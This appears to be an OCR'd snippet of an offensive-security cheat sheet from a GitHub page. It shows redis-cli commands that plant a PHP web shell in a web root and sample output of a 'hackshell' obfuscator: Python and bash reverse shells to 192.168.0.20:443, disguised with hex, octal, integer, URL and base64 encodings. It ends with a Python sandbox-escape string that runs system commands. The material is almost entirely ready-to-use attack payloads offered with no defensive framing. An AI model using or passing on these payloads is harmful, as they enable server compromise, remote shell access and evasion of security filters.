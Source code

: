 ### Webshell via redis
```
redis-cli -h ip  
config set dir /var/www/html  
config set dbfilename ok.php  
set test "<?php system($_GET['okay'); ?>"  
save
```

### Reverse Shell Obfuscator
e.g.  
`python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type hex`  
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0xC0A80014",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
`python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type octa`  
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0300.0250.0000.0024",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```  
`python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type long`  

```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3232235540",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```  
`python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type urle`  
```
py%24%28%29thon%20%24%28%29c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.0.20%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27
```
`python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type b64`  
```
cHkkKCl0aG9uIC0kKCljICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4wLjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw==
```
`
python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type jlre
`
```
bash -c {echo,YmEkKClzaCAtJCgpaSAnL2Rldi90Y3AvMTkyLjE2OC4wLjIwLzQ0MyAwPiYxJw==}|{base64,-d}|{bash,-i}
```
https://github.com/rodolfomarianocy/hackshell  

-> Other Tricks - Bypass  
```
"__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('id')";
```
  